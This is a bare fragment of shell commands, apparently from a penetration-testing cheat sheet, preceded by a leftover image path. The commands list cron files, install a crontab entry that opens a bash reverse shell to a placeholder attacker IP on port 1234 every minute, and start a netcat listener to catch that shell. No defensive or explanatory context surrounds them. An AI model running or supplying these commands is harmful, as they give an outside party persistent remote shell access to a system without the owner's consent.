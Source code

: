 cat /etc/cron*
  echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/<attacker_ip>/1234 0>&1'" > backdoor
  crontab -i backdoor
  crontab -l

nc -nlvp 1234
